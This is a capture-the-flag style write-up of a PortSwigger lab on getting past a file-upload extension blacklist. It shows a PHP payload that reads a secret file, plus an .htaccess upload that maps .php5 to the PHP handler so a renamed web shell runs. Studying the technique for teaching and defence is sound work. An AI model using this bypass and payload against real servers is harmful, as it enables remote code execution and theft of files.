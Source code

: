 # File Uploads: Insufficient blacklisting

## Introduction
In the wild, it's unlikely that you'll find a website that has no protection against file upload attacks like we saw in the first lab. But just because defenses are in place, that doesn't mean that they're robust. You can sometimes still exploit flaws in these mechanisms to obtain a web shell for remote code execution. 


## Table of Contents

- [File Uploads: Unrestricted File Uploads!](#file-uploads-unrestricted-file-uploads)
  - [Introduction](#Introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)


## How to identify

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like .php. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5, .shtml, and so on. 

**Upload Section** :
Any type of upload can possibly have a upload vulnerability. Make sure you remember this when you encounter a upload section in real life.



## Code/tools/websites

### Tools
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.

### Websites
> https://portswigger.net/web-security/file-upload
> https://ctf.hackthebox.com/ 


## Sample problem

### Problem Statement
 This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.. 


- [Link to the Problem](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

### Solution
Here we have a upload section under My Accounts tab to upload the Avatar.
We use burpsuite proxy here to interupt the Requests. 

- **Initial Request for JPG**:
The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping. 
  ```
  Content-Disposition: form-data; name="avatar"; filename="filename.jpg"
  Content-Type: image/jpeg
  ``` 

- **Restriction with Blacklisting**:
This time when we try to upload this exploit directly...
  ```php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
  ```
   We are not able to do so...

- **The difference**:
 Here we change the Content-Type to text/plain in burpsuite.
   ```
  Content-Disposition: form-data; name="avatar"; filename=".htaccess"
  Content-Type: text/plain
  ``` 
    and we add 
    ```  AddType application/x-httpd-php .php5 ``` so we can whitelist the .php5 extension with the apache server.

    So now we can just use the burpsuite to change the filename of exploit to exploit.php5
- **done**:
Now just use GET in the repeater in burpsuite to get the flag!!


## References

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/file-upload)


## Conclusion
In this section, We learned about a flaw in validation and exploitation of it..
